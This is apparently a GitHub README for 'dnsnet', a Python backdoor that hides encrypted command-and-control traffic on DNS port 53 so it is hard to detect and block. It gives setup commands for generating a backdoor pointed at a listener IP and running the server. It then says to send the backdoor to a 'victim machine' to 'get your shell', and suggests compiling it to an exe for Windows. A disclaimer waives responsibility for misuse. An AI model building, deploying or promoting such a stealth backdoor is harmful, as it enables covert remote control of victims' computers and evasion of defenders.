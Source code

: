 # dnsnet


# Current Version: BetaV1

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file sytem exploring, overall small fixes to make the backdoor more stable and usable

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```

and send the backdoor directory and get your shell (if on windows I suggest using pyinstaller to compile it to exe first)
 
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

